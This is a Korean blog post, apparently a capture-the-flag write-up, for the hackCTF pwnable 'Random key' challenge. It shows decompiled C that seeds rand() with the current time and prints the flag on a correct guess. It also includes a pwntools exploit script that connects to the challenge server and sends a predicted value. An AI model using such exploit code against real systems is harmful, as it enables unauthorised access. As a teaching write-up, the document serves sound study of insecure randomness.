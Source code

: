 ```yaml
---
layout: post
title:  "[hackCTF]Random key"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 15번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v4; // [rsp+0h] [rbp-10h]
  int v5; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  v4 = 0;
  v3 = time(0LL); // 1970.01.01부터 현재까지 흐르는 초를 v3에 저장한다
  srand(v3); // v3를 기반으로 난수를 초기화한다.
  v5 = rand(); // srand를 바탕으로 난수를 생성한다.
  puts("============================");
  puts(asc_400948);
  puts("============================");
  printf("Input Key : ", 0LL, *(_QWORD *)&v4, v6);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
  {
    puts("Correct!");
    system("cat /home/random/flag"); // flag 출력
    exit(0);
  }
  puts("Nah...");
  exit(0);
}
```
랜덤으로 만들어진 v5와 입력한 값이 같다면 flag를 출력한다. time(0)을 기준으로 v5가 만들어지므로 똑같은 seed로 random 값을 만든다면 v5와 만든 값이 같을 것이다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *
from ctypes import *

p = remote('ctf.j0n9hyun.xyz', 3014)

clib = cdll.LoadLibrary('libc.so.6')
mylib = cdll.LoadLibrary('%s/mylib.so' % os.getcwd())

random = mylib.main()

p.sendline(str(random))

p.interactive()
```

## 결과
![1501](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/1501.JPG?raw=true)

## 참고
<a href="http://egloos.zum.com/mcchae/v/11024689">python에서 c 코드 실행하기</a>  
<a href="https://edu.goorm.io/learn/lecture/201/%EB%B0%94%EB%A1%9C-%EC%8B%A4%ED%96%89%ED%95%B4%EB%B3%B4%EB%A9%B4%EC%84%9C-%EB%B0%B0%EC%9A%B0%EB%8A%94-c%EC%96%B8%EC%96%B4/lesson/12382/%EB%82%9C%EC%88%98-%EB%9E%9C%EB%8D%A4-%EB%A7%8C%EB%93%A4%EA%B8%B0">rand 함수</a>
